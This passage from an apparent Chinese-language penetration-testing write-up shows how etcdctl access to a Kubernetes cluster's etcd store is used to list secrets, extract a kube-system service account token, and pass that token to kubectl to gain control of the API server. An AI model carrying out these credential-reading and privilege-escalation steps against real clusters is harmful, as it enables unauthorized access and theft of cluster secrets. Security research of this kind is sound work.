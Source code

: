 查看 k8s 的 secrets

```bash
etcdctl get / --prefix --keys-only | grep /secrets/
```

读取 service account token

```bash
#etcdctl get / --prefix --keys-only | grep /secrets/kube-system/clusterrole
#etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-jdp5z
```

[![1640414325780.png](assets/1698894658-2a54e366b70bc5c3d2db9113f78fb3d2.png)](https://storage.tttang.com/media/attachment/2021/12/26/a1fa2c9f-5024-437d-9d14-1afcad41291c.png)  
而读取的 Token 大概如下模样  
[![1640414390724.png](assets/1698894658-d4188dcd587c55479eacd304c29986c8.png)](https://storage.tttang.com/media/attachment/2021/12/26/ce8ac3b9-9256-41f0-8c00-9ecd0ee5a3c4.png)  
之后就通过 token 访问 API-Server，获取集群的权限：

```bash
kubectl --insecure-skip-tls-verify -s https://127.0.0.1:6443/ --token="ey..." -n kube-system get pods
```

[![1640414535899.png](assets/1698894658-49e37b1a7ea22e52c046e16eb702db63.png)](https://storage.tttang.com/media/attachment/2021/12/26/52833037-8293-4f3e-a85c-f1ce55d56a79.png)
